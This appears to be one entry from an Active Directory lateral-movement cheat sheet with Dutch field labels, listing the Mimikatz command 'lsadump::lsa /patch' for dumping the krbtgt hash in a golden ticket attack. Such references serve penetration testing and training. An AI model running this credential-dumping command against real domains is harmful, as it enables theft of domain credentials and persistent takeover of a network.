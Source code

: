 # 24. AD Lateral Movement — Entry 45

## Categorie

Golden ticket attack - Mimikatz

## Commando

```
lsadump::lsa /patch
```

## Omschrijving

```
Dumping the krbtgt password hash using Mimikatz
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_


